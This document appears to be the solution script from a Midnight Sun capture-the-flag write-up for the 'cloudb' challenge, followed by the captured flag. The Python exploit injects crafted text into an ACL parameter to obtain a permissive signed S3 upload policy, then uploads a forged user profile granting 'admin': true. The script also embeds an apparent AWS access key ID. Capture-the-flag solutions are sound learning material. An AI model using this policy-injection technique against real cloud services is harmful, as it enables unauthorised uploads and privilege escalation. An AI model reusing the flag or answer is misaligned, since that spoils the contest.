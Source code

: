 ```python
hm = hmak(mail+password)
data = {
    'key': (None, f'users/{mail}/info.json'),
    'AWSAccessKeyId': (None, 'AKIAJQSA73ND6ITM5ETQ'),

    # https://docs.aws.amazon.com/AmazonS3/latest/API/sigv4-HTTPPOSTForms.html
    'success_action_status': 201,

    # https://stackoverflow.com/a/15235866
    'policy': None,
    'signature': None,

    'acl': (None, 'public-read'),
    'file': ('a.png', b'{' + f'''
"admin": true, "hmac": "{hm}", "name": "heaton", "email": "{mail}"
'''.encode() + b'}'),
}
print(data)
acl = '''
a'}],


'conditions': [
{'acl': 'public-read'},
['starts-with', '$bucket', ''],
['starts-with', '$key', ''],
['starts-with', '$success_action_status', '']
],


'Conditions': [{'a': 'a
'''.replace('\n', '')

r = s.get('http://cloudb-01.play.midnightsunctf.se/signature', params={
    'acl': acl,
    'hmac': hmak(acl),
})
print(r.text)
policy, sig = r.text.split(':')

print(b64d(policy))

data['policy'] = (None, policy)
data['signature'] = (None, sig)
r = s.post('https://cloudb-users.s3.amazonaws.com/', files=data) #multipart/form-data
print(r.status_code) # 204 means success
print(r.text)

```

Flag: `midnight{n3x7_t1m3_w3ll_d0_1t_Cl0udl3sslY}`
